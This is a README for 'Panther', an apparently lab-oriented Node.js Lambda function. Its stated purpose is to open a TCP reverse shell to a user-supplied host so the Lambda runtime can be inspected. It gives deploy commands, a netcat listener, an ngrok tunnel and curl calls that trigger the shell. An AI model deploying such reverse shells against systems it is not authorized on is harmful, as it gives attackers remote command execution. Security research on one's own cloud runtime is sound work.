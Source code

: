 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js / NPM](https://nodejs.org/en/download/)

## Getting Started

```bash
cd /PATH/TO/panther
aws configure
npm install
npx serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

## Usage

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Navigate to your function, supplying your connection details and API key:

```bash
curl 'https://YOUR_API_GATEWAY_ID.execute-api.us-east-1.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
npx serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=0.tcp.ngrok.io&port=17105?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.
